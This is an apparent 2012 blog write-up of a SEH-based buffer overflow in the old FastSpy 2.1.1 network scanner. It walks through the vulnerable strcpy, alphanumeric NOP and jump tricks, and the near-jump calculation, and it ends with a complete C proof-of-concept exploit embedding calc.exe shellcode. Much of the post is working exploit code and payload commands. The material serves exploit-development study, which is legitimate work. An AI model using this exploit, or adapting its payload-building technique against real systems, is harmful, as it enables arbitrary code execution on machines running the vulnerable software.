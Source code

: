 ```yaml
---
categories:
- fastspy
- buffer overflow
comments: false
date: "2012-10-03T00:15:10Z"
title: FastSpy 2.1.1 Buffer Overflow
---
```


[FastSpy](http://sourceforge.net/projects/fastspy/) is an oooooooooooooooooooold multithreaded network scanner, circa 1999, that doesn't really see any use nowadays.  I started using [Koders](http://koders.com/) to dig around projects and find potential exploits, and ran across this one.  It's drop-dead simple in practice (deceptively so), and there were a few interesting parts to it so I figured I'd throw this up.  At the time of writing, I don't think the original developer is even around, and I haven't seen this posted anywhere else.

While parsing through code for strcpy's, I discovered FastSpy parsing input files with the following:

```
case 'i':
    InputFromFile = TRUE;
    strcpy(InputFileName, optarg);
    break;
```

Where InputFileName is a 128 byte character buffer.  This vulnerability exists with a couple flags used by FastSpy, though it appears they actually read the data in correctly.

I wanted this to be a Windows PoC, so I loaded up PowerShell (who knew, right) and tried it out:

```
.\ImmunityDebugger.exe ./fs.exe $(python -c "print '-i ' + '\x90'*1120")
```

I should note there's a bit of cheating here, because I had already done this and figured out the values for overwriting the NSEH/SEH.  The above will launch Immunity with the FastSpy executable and the passed arguments.  That address will bring us right up to the NSEH.

One interesting bit here is that we're overflowing a filename and we're using Python.  As of writing, os.system() does not allow us to pass addresses as arguments to applications without getting UTF encoded. Because of this, my '\x90' in the above line will not properly encode.  Instead, we need to do a little magic; [here](http://www.blackhatlibrary.net/Ascii_shellcode) is a great source for finding alphanumeric equivalents.  Typically you'd use this thing for obfuscating shellcode to evade IPS/IDS/AV's, but in our case it's different.  I opted for '\x50\x58', which is a POP then a PUSH, so an equivalent two-instruction NOP.

As per the typical SEH exploit, I needed a POP POP RET.  From there, I needed a JMP back into shellcode.  Unfortunately, the JMP opcode, \xeb, isn't going to work because its not available in the alphanumeric set.  Instead we'll use a JE, \x74, to give us enough room to hop back into a bigger jump.  Our command now looks like this:

```
.\ImmunityDebugger.exe ./fs.exe $(python -c "print '-i ' + '\x50\x58'*558 + '\x41\x42\x43\x44' + '\x74\x80\x50\x58' + '\x65\x10\x40\x00' + 'D'*200")
```

Couple of things to note; we've halved our NOP count because each NOP is now two instructions.  I've added the ABCD ASCII values to show where our JE will hop into, the JE instruction, and finally my chosen POP POP RET address.  Here's a shot of the debugger at the JE instruction:

{{ img /images/posts/2012/jump_back.jpg }}

You can see the four letters as instructions just above our JE instruction (`\x41\x42\x43\x44`).  Conditional jumps are restricted to +/- 127, which is why we've got \x80 loaded up.  With this, you can see our NOP sled full of bytes waiting for your shell.  The shellcode needs to be alphanumeric, so I had to run it through msfencode -e x86/mixed_alpha or using Skypher's [ALPHA3](http://code.google.com/p/alpha3/).

In actuality, it was a huge pain to get this to work properly in the environment that I was developing in, but I was curious nonetheless if it was possible.  At this point I decided to switch to C so I could hack it out.  Copying over most of the work I'd already done, I got this:

```
#include <stdio.h>
#include <stdlib.h>


// Exploit Title: FastSpy v2.1.1 Buffer Overflow
// Date: 10/03/12
// Exploit Author: drone
// Software Link: https://sourceforge.net/projects/fastspy/
// Version: 2.1.1
// Tested on: Windows XP SP3

//
// compiled with MS x86 C/C++ compiler v16.00.
// Run in the folder with the FastSpy executable
//
int main (int argc, char **argv)
{
    char command[2000];
    char *buf = (char *)malloc(1141);
    char *nseh = "\xeb\xd9\x90\x90";
    char *seh = "\x65\x10\x40\x00";
    char *njmp = "\xe9\xa4\xfb\xff\xff";
    // calc.exe
    char shellcode[] = "\x31\xC9\x51\x68\x63\x61\x6C\x63\x54\xB8\xC7\x93\xC2\x77\xFF\xD0";

    int i;
    for ( i = 0; i < 1120; ++i ) {
        buf[i] = 0x41;
    }

    memcpy ( buf+20, shellcode, strlen(shellcode));
    memcpy ( buf+1115, njmp, 5);
    memcpy ( buf+1120, nseh, sizeof(nseh));
    memcpy ( buf+1120+sizeof(nseh), seh, sizeof(seh));
    
    sprintf(command, "\"\"fs.exe\" -i %s\"\"", buf);

    printf("[+] Launching FastSpy...\n");
    
    system(command);

    printf("[+] Exploit done");
    return 0;
}
```

Just a few things to note on this; calculating near jump.  Once we've got the short jump back into controlled space, we need a near jump to further ourselves to the top of shellcode space.  This can be done with the \xe9 opcode.  To calculate the exact distance, we need to subtract the origin address from the destination address.  This can be done with gdb:  

```
p 0x0018ff73 - 0x0018fb17
$3 = 1116
```

Now that we've got the distance, we need the number in hexadecimal.  This can be calculated by taking the negative of the number and converting it to hex:

```
p/x -1116
$4 = 0xfffffba4
```

So now we know that our near jump is going to be `\xe9\xa4\xfb\xff\xff`.

Otherwise the vulnerability is a straight-forward SEH exploit.  I was particularly interested in getting the alphanumeric shell to work, though.
